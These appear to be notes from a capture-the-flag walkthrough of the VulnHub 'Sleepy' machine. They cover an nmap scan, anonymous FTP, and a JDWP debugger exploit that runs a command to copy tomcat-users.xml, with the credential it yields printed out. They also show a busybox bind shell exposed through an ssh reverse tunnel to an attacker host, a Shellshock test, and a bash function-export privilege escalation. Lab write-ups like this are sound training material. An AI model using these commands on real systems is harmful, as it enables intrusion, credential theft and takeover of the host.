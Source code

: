 https://g0blin.co.uk/devrandom-sleepy-vulnhub-writeup/
http://devloop.users.sourceforge.net/index.php?article138/solution-du-ctf-dev-random-sleepy-de-vulnhub

https://highon.coffee/blog/sleepy-ctf-walkthrough/

https://www.serma-safety-security.com/vulnerabilite-critique-sur-bash-cve-2014-6271-shellshock/

https://www.minttm.com/takeover-shellshocker-net


Machines :  shellshock, symfonos 2, sleepy
Keys : Java Debug Wire Protocol (JDWP) version 1.6 1.7.0_71, 



	└─$ sudo nmap -sT -A -p- -Pn -sV 192.168.56.6
	Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-18 16:04 CET
	Stats: 0:02:15 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
	Nmap scan report for 192.168.56.6
	Host is up (0.00022s latency).
	Not shown: 65532 filtered tcp ports (no-response)
	PORT     STATE SERVICE VERSION
	21/tcp   open  ftp     vsftpd 2.0.8 or later
	| ftp-syst: 
	|   STAT: 
	| FTP server status:
	|      Connected to 192.168.56.1
	|      Logged in as ftp
	|      TYPE: ASCII
	|      No session bandwidth limit
	|      Session timeout in seconds is 300
	|      Control connection is plain text
	|      Data connections will be plain text
	|      At session startup, client count was 1
	|      vsFTPd 3.0.2 - secure, fast, stable
	|_End of status
	| ftp-anon: Anonymous FTP login allowed (FTP code 230)
	|_Can't get directory listing: TIMEOUT
	8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
	|_ajp-methods: Failed to get a valid response for the OPTION request
	9001/tcp open  jdwp    Java Debug Wire Protocol (Reference Implementation) version 1.6 1.7.0_71
	|_jdwp-info: ERROR: Script execution failed (use -d to debug)
	MAC Address: 08:00:27:00:AC:78 (Oracle VirtualBox virtual NIC)
	Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
	Device type: general purpose
	Running: Linux 2.6.X|3.X
	OS CPE: cpe:/o:linux:linux_kernel:2.6 cpe:/o:linux:linux_kernel:3
	OS details: Linux 2.6.32 - 3.10, Linux 2.6.32 - 3.13, Linux 3.4 - 3.10
	Network Distance: 1 hop

	TRACEROUTE
	HOP RTT     ADDRESS
	1   0.22 ms 192.168.56.6

	OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
	Nmap done: 1 IP address (1 host up) scanned in 148.19 seconds


# FTP connexion

	$ ftp 192.168.56.6
	Connected to 192.168.56.6.
	220 ZzZZzZzz FTP
	Name (192.168.56.6:kali): ftp
	331 Please specify the password.
	Password:
	230 Login successful.
	Remote system type is UNIX.
	Using binary mode to transfer files.
	ftp> ls
	200 PORT command successful. Consider using PASV.
	150 Here comes the directory listing.
	drwxrwxrwx    2 0        1002           23 Jun 19  2015 pub
	226 Directory send OK.
	ftp> cd pub
	250 Directory successfully changed.
	ftp> ls
	200 PORT command successful. Consider using PASV.
	150 Here comes the directory listing.
	-rw-r--r--    1 1002     1002       120456 Jun 18  2015 sleepy.png
	226 Directory send OK.
	ftp> get sleepy.png 
	local: sleepy.png remote: sleepy.png
	200 PORT command successful. Consider using PASV.
	150 Opening BINARY mode data connection for sleepy.png (120456 bytes).
	226 Transfer complete.
	120456 bytes received in 0.01 secs (16.4508 MB/s)
	ftp> put sleepy.png  s.png
	local: sleepy.png remote: s.png
	200 PORT command successful. Consider using PASV.
	550 Permission denied.


# JDWP exploit 

Install jdb

	sudo apt install -y default-jdk


└─$ jdb -attach 192.168.56.6:9001
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Set uncaught java.lang.Throwable
Set deferred uncaught java.lang.Throwable
Initializing jdb ...
> threads
Group system:
  (java.lang.ref.Reference$ReferenceHandler)0x19e Reference Handler cond. waiting
  (java.lang.ref.Finalizer$FinalizerThread)0x19f  Finalizer         cond. waiting
  (java.lang.Thread)0x1a0                         Signal Dispatcher running
Group main:
  (java.lang.Thread)0x1                           main              sleeping
> interrupt 0x1
> 
Exception occurred: java.lang.InterruptedException (uncaught)"thread=main", java.lang.Thread.sleep(), line=-1 bci=-1

main[1] print new java.lang.String(new java.io.BufferedReader(new java.io.InputStreamReader(new java.lang.Runtime().exec("cp /etc/tomcat/tomcat-users.xml /var/ftp/pub/").getInputStream())).readLine())
java.lang.NullPointerException
        at jdk.jdi/com.sun.tools.example.debug.expr.LValue.argumentsMatch(LValue.java:268)
        at jdk.jdi/com.sun.tools.example.debug.expr.LValue.resolveOverload(LValue.java:399)
        at jdk.jdi/com.sun.tools.example.debug.expr.LValue.makeNewObject(LValue.java:846)
        at jdk.jdi/com.sun.tools.example.debug.expr.ExpressionParser.AllocationExpression(ExpressionParser.java:1063)
        at jdk.jdi/com.sun.tools.example.debug.expr.ExpressionParser.PrimaryPrefix(ExpressionParser.java:909)
        at jdk.jdi/com.sun.tools.example.debug.expr.ExpressionParser.PrimaryExpression(ExpressionParser.java:860)
        at jdk.jdi/com.sun.tools.example.debug.expr.ExpressionParser.PostfixExpression(ExpressionParser.java:787)
        at jdk.jdi/com.sun.tools.example.debug.expr.ExpressionParser.UnaryExpressionNotPlusMinus(ExpressionParser.java:712)
        at jdk.jdi/com.sun.tools.example.debug.expr.ExpressionParser.UnaryExpression(ExpressionParser.java:653)
        at jdk.jdi/com.sun.tools.example.debug.expr.ExpressionParser.MultiplicativeExpression(ExpressionParser.java:579)
        at jdk.jdi/com.sun.tools.example.debug.expr.ExpressionParser.AdditiveExpression(ExpressionParser.java:547)
        at jdk.jdi/com.sun.tools.example.debug.expr.ExpressionParser.ShiftExpression(ExpressionParser.java:512)
        at jdk.jdi/com.sun.tools.example.debug.expr.ExpressionParser.RelationalExpression(ExpressionParser.java:473)
        at jdk.jdi/com.sun.tools.example.debug.expr.ExpressionParser.InstanceOfExpression(ExpressionParser.java:458)
        at jdk.jdi/com.sun.tools.example.debug.expr.ExpressionParser.EqualityExpression(ExpressionParser.java:427)
        at jdk.jdi/com.sun.tools.example.debug.expr.ExpressionParser.AndExpression(ExpressionParser.java:408)
        at jdk.jdi/com.sun.tools.example.debug.expr.ExpressionParser.ExclusiveOrExpression(ExpressionParser.java:390)
        at jdk.jdi/com.sun.tools.example.debug.expr.ExpressionParser.InclusiveOrExpression(ExpressionParser.java:372)
        at jdk.jdi/com.sun.tools.example.debug.expr.ExpressionParser.ConditionalAndExpression(ExpressionParser.java:354)
        at jdk.jdi/com.sun.tools.example.debug.expr.ExpressionParser.ConditionalOrExpression(ExpressionParser.java:336)
        at jdk.jdi/com.sun.tools.example.debug.expr.ExpressionParser.ConditionalExpression(ExpressionParser.java:313)
        at jdk.jdi/com.sun.tools.example.debug.expr.ExpressionParser.Expression(ExpressionParser.java:250)
        at jdk.jdi/com.sun.tools.example.debug.expr.ExpressionParser.evaluate(ExpressionParser.java:75)
        at jdk.jdi/com.sun.tools.example.debug.tty.Commands.evaluate(Commands.java:114)
        at jdk.jdi/com.sun.tools.example.debug.tty.Commands.doPrint(Commands.java:1653)
        at jdk.jdi/com.sun.tools.example.debug.tty.Commands$3.action(Commands.java:1679)
        at jdk.jdi/com.sun.tools.example.debug.tty.Commands$AsyncExecution$1.run(Commands.java:66)
 new java.lang.String(new java.io.BufferedReader(new java.io.InputStreamReader(new java.lang.Runtime().exec("cp /etc/tomcat/tomcat-users.xml /var/ftp/pub/").getInputStream())).readLine()) = null
main[1] exit



user username="sl33py" password="Gu3SSmYStR0NgPa$sw0rD!" roles="tomcat,manager-gui,admin-gui,admin,manager-jmx,admin-script,manager,manager-script,manager-status"/>

./busybox telnetd -l /bin/bash -p 4444

ssh kali@10.0.1.1 -R 4444:127.0.0.1:4444 -o UserKnownHostsFile=/dev/null -o StrictHostKeyChecking=no


SHELLSHOCK
bash-4.2$ env x='() { :;}; echo vulnerable' bash -c "echo test"

bash-4.2$ function /usr/bin/sl () { /bin/bash; }
bash-4.2$ export -f /usr/bin/sl



